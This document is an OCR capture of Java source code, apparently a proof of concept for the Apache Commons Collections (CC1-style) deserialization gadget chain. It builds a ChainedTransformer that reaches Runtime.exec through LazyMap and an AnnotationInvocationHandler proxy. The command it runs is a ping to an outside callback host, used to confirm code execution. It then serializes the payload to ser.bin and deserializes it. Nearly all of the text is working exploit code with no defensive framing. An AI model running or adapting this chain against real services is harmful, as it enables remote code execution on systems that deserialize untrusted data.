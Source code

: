 ```java
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                lazyMap.getClass().getClassLoader(),
                lazyMap.getClass().getInterfaces(),
                annotationInvocationHandler);
        InvocationHandler entryInstance = (InvocationHandler) constructor.newInstance(Retention.class, proxy);
        serializeObject(entryInstance);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```
